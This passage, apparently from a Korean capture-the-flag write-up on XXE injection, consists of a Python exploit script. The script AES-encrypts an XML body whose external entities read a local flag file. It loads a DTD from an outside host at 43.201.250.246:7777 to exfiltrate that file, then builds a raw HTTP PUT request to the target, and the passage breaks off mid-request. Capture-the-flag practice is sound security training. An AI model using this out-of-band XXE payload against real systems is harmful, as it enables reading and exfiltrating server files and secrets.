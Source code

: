 #### 3. XXE Injection 

```python
import socket
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad, pad
import base64 

key = '1234567890123456'    
iv = '1234567890123456'    

def decrypt(data):
    global key, iv
    cipher = AES.new(key.encode(), AES.MODE_CBC, iv.encode())
    decrypted_data = unpad(cipher.decrypt(data), AES.block_size)
    return decrypted_data.decode('utf-8')

def encrypt(data):
    global key, iv
    cipher = AES.new(key.encode(), AES.MODE_CBC, iv.encode())
    padded_data = pad(data.encode(), AES.block_size)
    encrypted = cipher.encrypt(padded_data)
    encoded = base64.urlsafe_b64encode(encrypted).decode('utf-8').rstrip('=')
    return encoded

# sock 함수
def sock(host, port, message):
    global key, iv
    try:
        # 서버에 소켓 연결
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect((host, int(port)))
            
            s.sendall(message.encode())

            response = b""
            while True:
                chunk = s.recv(1024)
                if not chunk:
                    break
                response += chunk
            
            response_str = response.decode('utf-8')
            print(response_str)

    except Exception as e:
        print(f"Error: {e}")
        return None

host = '43.203.207.195'  
port = '10002'     

body = '<!DOCTYPE data ['
body += '<!ENTITY % file SYSTEM "file:///flag1423749465164">'
body += '<!ENTITY % dtd SYSTEM "http://43.201.250.246:7777/ex.dtd">' 
body += '%dtd;' 
body += ']>'
body += '<data>&exfil;</data>' 

enc_body = encrypt(body)

payload = 'PUT /fsalke2j9sdfcjlz/yQOIIWf3PzTrvh0NdUByunaZZCGTYA HTTP/1.1\r\n'
payload += 'Host: 43.203.207.195\r\n'  
payload += 'Cookie: myapp=myapp\r\n'
```